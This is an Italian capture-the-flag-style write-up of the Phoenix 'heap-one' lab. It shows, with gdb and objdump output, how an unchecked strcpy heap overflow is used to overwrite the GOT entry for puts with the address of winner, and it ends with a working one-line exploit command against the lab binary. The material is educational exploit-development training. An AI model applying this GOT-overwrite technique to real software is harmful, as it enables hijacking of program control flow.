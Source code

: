 ### Descrizione del Codice

Il programma `heap_one.c` esplora cosa si può fare con la sovrascrittura dei dati.

### Funzionamento del Programma

1. Il programma alloca memoria per due strutture `heapStructure`.
2. Imposta la priorità e alloca memoria per il nome di ciascuna struttura.
3. Copia gli argomenti della riga di comando nei campi `name` delle strutture.
4. Stampa un messaggio di fine.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `strcpy` senza controllare la dimensione, il che può causare un overflow del buffer. Questo può essere sfruttato per sovrascrivere qualsiasi valore in memoria.

### Exploit

L'exploit sfrutta la vulnerabilità di overflow del buffer per sovrascrivere l'indirizzo della funzione `puts` nella Global Offset Table (GOT) con l'indirizzo della funzione `winner`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```sh
$ gdb -q /opt/phoenix/i486/heap-one
Reading symbols from /opt/phoenix/i486/heap-one...(no debugging symbols found)...done.

gef➤  b *0x08048883
Breakpoint 1 at 0x8048883

gef➤  r AAAA BBBB
Starting program: /opt/phoenix/i486/heap-one AAAA BBBB
Breakpoint 1, 0x08048883 in main ()

gef➤  x/xw $ebp-0xc
0xffffd6fc:	0xf7e69008

gef➤  x/xw $ebp-0x10
0xffffd6f8:	0xf7e69028

gef➤  x/12xw 0xf7e69008
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x00000000	0x00000000	0x00000011
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011

gef➤  x/12xw 0xf7e69028
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011
0xf7e69038:	0x42424242	0x00000000	0x00000000	0x000fffc1
0xf7e69048:	0x00000000	0x00000000	0x00000000	0x00000000

Possiamo vedere che i1 è a 0xf7e69008, il primo valore priority è 0x1 e il secondo valore è l'indirizzo di name restituito da malloc(8) che è 0xf7e69018 e possiamo vedere che strcpy sta scrivendo a quell'indirizzo.

Quindi, se facciamo un overflow di i1 per scrivere all'indirizzo di name di i2, possiamo sovrascrivere qualsiasi valore in memoria con il valore di argv[2]. Ma cosa sovrascrivere?

gef➤  disassemble main 
Dump of assembler code for function main:
   0x0804887e <+169>:	push   0x804ab70
=> 0x08048883 <+174>:	call   0x80485b0 <puts@plt>
   0x08048888 <+179>:	add    esp,0x10

Hai indovinato (spero), sovrascriveremo l'entry della GOT della funzione puts per puntare alla funzione winner.

$ objdump -R /opt/phoenix/i486/heap-one | grep puts
0804c140 R_386_JUMP_SLOT   puts

$ objdump -t /opt/phoenix/i486/heap-one | grep winner
0804889a g     F .text	00000027 winner

puts è a 0x0804c140 e winner è a 0x0804889a, e l'offset necessario = 0xf7e6902c - 0xf7e69018 = 20 byte.

Nota che nell'assembly, la funzione winner usa printf non puts quindi possiamo sovrascrivere in sicurezza la funzione puts.

Soluzione
$ /opt/phoenix/i486/heap-one $(python -c "print 'A'*20 + '\x40\xc1\x04\x08'") $(python -c "print '\x9a\x88\x04\x08'")
Congratulations, you've completed this level @ 1580310733 seconds past the Epoch